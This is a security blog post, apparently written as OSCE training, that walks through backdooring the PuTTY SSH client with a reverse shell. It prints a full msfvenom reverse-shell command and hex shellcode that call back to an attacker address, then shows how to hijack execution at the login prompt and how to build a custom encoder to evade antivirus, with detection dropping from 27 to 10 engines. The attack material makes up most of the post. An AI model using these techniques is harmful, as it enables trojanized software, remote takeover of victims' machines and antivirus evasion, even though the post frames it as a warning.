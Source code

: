 :page-slug: backdooring-putty/
:page-date: 2020-06-25
:page-category: attacks
:page-subtitle: Trust no one
:page-tags: osce, backdoor, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/cover_sa53hg.webp
:page-alt: Photo by Dil on Unsplash
:page-description: This article will show a way of creating a backdoor that will be injected into PuTTY, a widely used software for accessing remote computers.
:page-keywords: Information, Security, Protection, Hacking, Exploit, Backdoor, OSCE, PuTTY, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/8OECtq8rrNg

= Backdooring PuTTY

The Internet is a dangerous place. It contains billions of points that can be
accessed using an ever-increasingly range of devices.
Endpoint protections are improving over time,
but there is always a new technique that overcomes them.

Antivirus software is a clear example of an endpoint protection method
that's constantly improving, trying to overcome its limitations.

Most antivirus offerings use signatures to detect malware. A signature is
nothing but a sequence of bytes.

As an example, I extracted the today's
link:https://www.clamav.net/downloads[Clamav AV signatures], picked a random
entry:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/clamav1_naoaqi.webp[Clamav signatures]

And put it on a file called `virus`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd f0  |0.ENT..Sa.......|
----

Check it using VirusTotal:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                true      0.102.3.0             Win.Trojan.SubSeven-2  20200624
----

And it's detected as an expected virus.

But then I changed a single byte: The last `f0` for an `fa`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd fa  |0.ENT..Sa.......|
----

And check it again:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                false     0.102.3.0                     20200624
----

The check failed! Antiviruses based on signatures are easily fooled.

In this post, we will be able to backdoor the latest available version
of PuTTY (0.73 to the date of this writing) with a reverse shell.
We will also try to evade today's modern antiviruses,
which are not only based on signatures but also on behavior.

== Strategy

The following are the steps that we will take to convert the original
`putty.exe` to its backdoored version:

. Find space to include our shellcode.
. Check the current `putty.exe` PE properties and modify them as needed.
. Add a shellcode.
. Redirect the execution flow of the application to our code.
. Restore execution flow.
. Encode shellcode to avoid antivirus detection.

== Finding space

If we are going to inject new code into a file,
we must find a memory block with the required space to manipulate
without modifying the normal flow of the application.

These "blank" spaces are known as *code caves* and are present on almost any
executable file. They are composed commonly of `0xCC`, `0x90`, or `0x00` bytes.

There are several tools that help us finding code caves. The tool I prefer
is link:https://github.com/EgeBalci/Cminer[Cminer]. Let's run it over our
`putty.exe` file, and tell it that looks for code caves of 500 bytes or more:

[source,console]
----
$ ./Cminer /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe 500
...
[*] Minimum cave size set to 500
[*] Extracting file header data...
/mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
Magic			010b	(PE32)
[*] Image Base: 00400000
[*] Start Address: 0x0046fe96
[*] Parsing file sections...
[>] .reloc     (0x509000/0x51011c)
[>] .rsrc      (0x4bd000/0x508030)
[>] .gfids     (0x4bc000/0x4bc0b4)
[>] .00cfg     (0x4bb000/0x4bb004)
[>] .data      (0x4b6000/0x4b6a00)
[>] .rdata     (0x48f000/0x4b5cac)
[>] .text      (0x401000/0x48e65e)
[*] Section parsing complete.
[*] Loading PE file...
[*] File Size: 1096080
[*] Starting cave mining process...
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[*] Mining finished.

[+] 4 Caves found.

[#] Cave 1
[*] Section: .rsrc
[*] Cave Size: 4027 byte.
[*] Start Address: 0x4c2660
[*] End Address: 0x4c361b
[*] File Ofset: 0xbae60

[#] Cave 2
[*] Section: .rsrc
[*] Cave Size: 4009 byte.
[*] Start Address: 0x4c15b1
[*] End Address: 0x4c255a
[*] File Ofset: 0xb9db1

[#] Cave 3
[*] Section: .rsrc
[*] Cave Size: 1737 byte.
[*] Start Address: 0x4c0e76
[*] End Address: 0x4c153f
[*] File Ofset: 0xb9676

[#] Cave 4
[*] Section: .00cfg
[*] Cave Size: 509 byte.
[*] Start Address: 0x4bb003
[*] End Address: 0x4bb200
[*] File Ofset: 0xb5403
----

We will use the last one for this example, which contains 509 bytes.

== Getting executable characteristics

The code cave we chose is located in the `.00cfg` PE section.

Sections are the way the different regions of the virtual memory of a PE
file are distributed. There are several predefined sections,
and each of them has specific purposes, mostly determined by the
characteristics than for the section name itself. In fact, the name
can be anything, and the PE header will have pointers to them.

There is a section called `.text`, which is commonly used to store the
executable code of the file. As that section is meant to be executable,
its characteristics are commonly `READ | EXEC`.

Likewise, there are other sections that hold initialized data and
global variables like `.data` and `.bss` whose contents are only meant to be
`READ | WRITE`, and not executed.

The section on which our code cave is located is `.00cfg`,
which is a non-standard section.
We can check its current characteristics using many tools.
I will use link:https://github.com/petoolse/petools[PE Tools]:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/petools1_hfv6og.gif[PE Characteristics]

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/petools2_vm3gcp.webp[PE Characteristics]

As we can see, that section has currently only permissions to be read.
However, as we need to execute code there that will self-decode, we must
enable the `WRITE` and `EXEC` characteristics:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/backdooring-putty/petools3_tpnufm.gif[New PE Characteristics]

== ASLR

The `putty.exe` is a standalone executable. We may expect that the virtual
address space of an executable file at rest is the same as when
it's launched and a process instance is created. However, every time we
load `putty.exe` on a debugger, the address space changes on memory.
This is because  of something called *Address Space Layout Randomization*
or *ASLR*. This is protection added to executable files to make it hard
for attackers to link:../vulnserver-trun/[exploit overflows] using
absolute addresses.

It can be pretty annoying during a backdooring session, but it can be disabled
while we finish and can be enabled at the end. Let's do that:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330660/blog/backdooring-putty/aslr1_qmz2rc.gif[New PE Characteristics]

As you can see, I used link:https://ntcore.com/?page_id=388[CFF explorer] to
change the `DLL Characteristics` of the `putty.exe` file and disabled the
`DLL can move` option, which is the indicator of the presence of `ASLR`.

We must remember to be careful to use relative calculations
and avoid absolute addresses, or `ASLR` will take its toll at the end.

With that in place, we can start the backdooring process.

== A needed parenthesis

Before going into inserting new bytes into our file, we must check two things:
Whether the file is still working as originally expected
and if it's flagged as malicious.

The first check is easy:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/working0_w3jbr0.gif[Still working]

It's still working.

The result of the second check is something expected:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty.exe
...
[*] Analysis Report: putty.exe (14 / 74): b28ceceac0b0564110d70eac176e151e616a744c6289ff5c86f2484fa987aca5
----

This tells us that 14 out of 74 antiviruses flag this new file as malicious.

In contrast, the original file was only flagged by 4:

[source,console]
----

$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
...
[*] Analysis Report: putty-orig.exe (4 / 73): 736330aaa3a4683d3cc866153510763351a60062a236d22b12f4fe0f10853582
----

We must keep those values in mind
to have something to compare our final file with.

Let's resume our process!

== Making up the code cave

Before injecting a shellcode, we need to locate the code cave on our file.
`Cminer` showed that it started at `0x4bb003`, and as we disabled `ASLR`,
we should be able to locate it at that exact address.
I will use link:https://x64dbg.com[x64dbg] a modern open-source debugger for
Windows:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/codecave1_wuqfqt.gif[Finding code cave]

Great, as you can see, our code cave it's a region full of `0x00` bytes.
It's a good idea to change those `0x00` to something that doesn't block
the execution flow, like `NOPs` (`0x90`).
To do that, we need to select the addresses we want to modify, then
right-click on the `CPU` window, select `Binary` and finally `Fill with NOPs`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/fillnops1_xbm2b5.gif[Fill NOPs]

With that, we have an empty canvas to work on.

It is also a good idea to save every progress of the backdooring in a
separate new file, so we can go back if anything's not working.
To do that, we can issue `Ctrl+P` that will show the actual current changes
we've made and save the "patches" to a new file.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/patch1_u52yhv.gif[Patch1]

With that in place, we can start injecting instructions into our code cave.
The first thing we must do is save the current value of the CPU registers
and flags, so we can restore the normal flow of the application after
executing our shellcode. If we don't do that, the application will have
unexpected behavior, and the backdooring will be detected!

The instructions for saving the CPU registers and flags are:

[source,x86asm]
----
pushad          ; Push general purpose registers to the stack
pushfd          ; Push EFLAGS to the stack
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/pushadfd1_jqpd3u.webp[Save registers and flags]

At the end of our code cave, we should have to restore that information from
the stack. We will see that later.

We are now ready to inject the shellcode.

== Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the victim
to the attacker machine and serves a reverse shell.

To do that, we will use `msvenom`:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
----

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert those bytes on our code cave.

Here we can see the addresses
on where the `pushad/pushfd` instructions were injected:

[source,x86asm]
----
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
----

To make some room for any needed encoder/decoder, I will use the address
`004BB060` as the place where the shellcode will be placed. To inject the
shellcode, we must select the output of `msfvenom` in `hex` format, then
on the debugger select an address region large enough to fit our shellcode,
then right-click, select `Binary` and then `Paste`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/pasteshell1_ma7nu3.gif[Paste shell]

Great! We can now save the changes to a new file `putty-02.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/patch2_evbeco.gif[Patch2]

== Diverting execution flow

Now that we have our shellcode in place, we need to change the execution
flow of `putty.exe` to point to our code cave. You can choose at what part
of the execution you want to have the shellcode triggered. Some may want it to
happen at the very start, overwriting the entry point. In this example, we
will trigger it when the user connects to a server and the `login as:` text
appears:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330664/blog/backdooring-putty/loginas1_mhuzlp.webp[Login as]

Using our debugger, we need to find on where the `login as:` string is
issued:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/loginas2_g70yyf.gif[Login as]

We had two locations, and we need to know which of them is
the one we need, so we had to put breakpoints and check:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330667/blog/backdooring-putty/breakpoint1_q4z8dd.gif[Breakpoint]

We got a hit!

As you can see, we hit just before a `call`. I mentioned before that
we need to use relative calculations to overcome `ASLR` limitations.
That's why we will divert the execution *after* the `call`, here:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/breakpoint2_lt8mdu.webp[Breakpoint]

Now, copy some instructions to a text file, starting at `0042D6F7`, so we
can later restore the execution to this point:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330659/blog/backdooring-putty/copy1_u9pul4.gif[Copy instructions]

Having done that, we need to make a jump to the first instruction of our code
cave. That instruction is `pushad` located at `004BB004`. Let's do that:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/jmp1_g13zyd.gif[Jump to code cave]

Now I will save the modifications to `patch-03.exe`.

Remember that we need to restore the execution flow after our
shellcode. Let's do that.

== Restore execution flow

To completely restore the execution of `PuTTY`, we need to do several things:

. Get the value of `ESP` *after* the execution of the `pushad/pushfd`
instructions.
. Get the value of `ESP` *after* the shellcode is completely executed.
. Get the offset using `ESP1 - ESP2 = offset`.
. Align `ESP` with the resulting offset.
. Pop back the CPU registers and flags using `popfd/popad`.
. Restore instructions overwritten by the `jmp` to the code cave.
. Jump to the next instruction after that jump.

=== Get ESP before shellcode

We can do that easily by putting a breakpoint after the `pushad/pushfd` calls
and taking note of `ESP`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/backdooring-putty/espbefore_ng575f.gif[ESP before]

The ESP value is `0019FE30`.

=== Get ESP after shellcode

This can be obtained after the shellcode is executed. Remember to open a
listener in the attacker machine:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/espafter_r1inhq.gif[ESP after]

Great! We got the shell, and the `ESP` value is `0019FC30`.
However, the breakpoint was reached only *after* exiting the shell.
We will need to modify the shellcode later.

=== Get the offset

This one is easy: `0019FE30 - 0019FC30 = 0x200`.

=== Align ESP + Restore registers and flags

Now we need to point `ESP` to the value after `pushad/pushfd`. We also
need to restore the registers and flags. This can be done easily with:

[source,x86asm]
----
add esp,0x200
popfd
popad
----

We can now add that to our file:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330660/blog/backdooring-putty/restore1_z3xrgw.webp[Restore]

=== Restore instructions + Jump to normal flow

If you remember, the original point from where we diverted the execution was:

[source,x86asm]
----
0042D6F7 | 83C4 04               | add esp,4                             |
0042D6FA | 31C9                  | xor ecx,ecx                           |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              | eax:"SSH login name"
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

And the resulting instructions when we added the jump to our code cave were:

[source,x86asm]
----
0042D6F7 | E9 08D90800           | jmp putty-03.4BB004                   |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              |
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

That means that we overwrote two instructions: `add esp,4` and `xor ecx,ecx`,
and they need to be restored. We also see that the next instruction in
the normal execution flow is located at `0042D6FC`. So, to finish our
restoration, we need to add this:

[source,x86asm]
----
add esp,0x4
xor ecx,ecx
jmp 0x0042D6FC
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/restore2_udhuur.webp[Restore]

We can now save the changes to a new file `patch-04.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330665/blog/backdooring-putty/patchrestore1_fdusx4.gif[Patch restore]

At this point, we should be able to launch `PuTTY`, get a shell,
and resume normal execution:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330656/blog/backdooring-putty/working1_vvddgu.gif[Working]

However, as you can see, the execution is only resumed when the shell exits.

== Patching shellcode

That behavior is caused by the way the reverse shell was implemented on
`Metasploit`. It uses a call to `WaitForSingleObject` that instructs the
parent process to wait infinitely until the shell process is done.
This makes the shellcode more reliable, but for our purpose,
we need a different behavior.

The `WaitForSingleObject` function signature is:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject
[source,cpp]
----
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
----

Our reverse shell sets the value of `dwMilliseconds` parameter to `-1`,
which makes it wait forever for the process to finish.
That value is set at this position on the shellcode:

[source,x86asm]
----
004BB179 | 4E                    | dec esi                               |
----

We just need to change it to a `NOP` and we should be ready:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330657/blog/backdooring-putty/patching1_hzrnmz.gif[Patching shellcode]

Let's run our saved `putty-05.exe`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330663/blog/backdooring-putty/working2_adfozy.gif[Patching shellcode]

Mission accomplished! We've got now a fully functional, yet backdoored
`PuTTY`.

== Encoding our shellcode

Let's see how we are doing with antivirus detection:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-05.exe
[*] Analysis Report: putty-05.exe (27 / 71): 919677186373a27cd4de5a2f21fa854784c330abf67bc4abbc893a0a594d1d28
----

Not so great. To improve that metric, we will need to encode our shellcode
using a self-made encoder.

A common method is to use the `XOR` instruction on every byte, but an
average antivirus nowadays will be able to revert it easily. We are
going to try something more.

The mutations we perform over the code must be reversible,
so for the sake of this example, I will use this encoder strategy:

. `XOR` byte with key `0xD`.
. Add `0x2` to byte.
. Bit-wise negate byte.
. Rotate left 8 bits.

.encoder
[source,x86asm]
----
xor byte [eax],0xd
add byte [eax],0x2
not byte [eax]
rol byte [eax],0x8
----

And the decoder should be the instructions in reverse order:

. Rotate right 8 bits.
. Bit-wise negate byte.
. Sub `0x2` to byte.
. `XOR` byte with key `0xD`.

.decoder
[source,x86asm]
----
ror byte [eax],0x8
not byte [eax]
sub byte [eax],0x2
xor byte [eax],0xd
----

The encoder should be used only once, to mutate the file. Then, when the
encoded shellcode is in place, the decoder should be finally inserted so it
can self-decode on memory every time it's launched.

The full stub we are going to insert is:

[source,x86asm]
----
mov eax,<address where shellcode starts>    ; Make EAX a pointer to our shellcode
loop:                                       ; Loop starts here
<encoder or decoder>                        ; The encoder or decoder instructions
inc eax                                     ; Points EAX to the next byte of the shellcode
cmp eax,<address where shellcode ends>      ; Compare if EAX is pointing to the end of the shellcode
jne loop                                    ; If not, jump to the loop until we reach the end
----

=== Encoding

Let's encode the shellcode first:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330661/blog/backdooring-putty/encoder1_fk2gug.webp[Encoder]

Save that changes to a file called `putty-06.exe`.

Now, we can watch the process of encoding in real-time:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330662/blog/backdooring-putty/encoded1_ewvqb2.gif[Encoder]

Wonderful. Now, select those modified bytes, then right-click, then
`Binary`, then `Copy`. Restart the debugging session with `Ctrl+F2` and
go to that address region again and hit `Shift+V` to binary paste.

We are now ready to patch the file to a new one called `putty-07.exe`.

=== Decoding

All that's left is to replace the encoder with the decoder on our
`putty-07.exe` file:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330658/blog/backdooring-putty/decoder1_eqiq0o.webp[Decoder]

And save the patches in a file called `putty-final.exe`.

If everything comes as expected, `putty-final.exe` will run,
decode itself in memory, send us a reverse shell and resume normal execution.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330659/blog/backdooring-putty/success_qravpz.gif[PuTTY working]

Yes! Scary, huh?

== Antivirus detection

Now, let's see how our manually encoded `PuTTY` is tagged in VirusTotal:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-final.exe
....
[*] Analysis Report: putty-final.exe (10 / 72):
6b96ec9906e87bbed37570a83f9c1fcad0dd7a03ff705b1c23dc4f7f425c53ab
----

Awesome! We were able to lower the ratio of antivirus tagging from 27 to 10!

== Conclusion

The Internet is full of dangers.
We hope this article has shown you the risks
of running software obtained from untrusted sources.
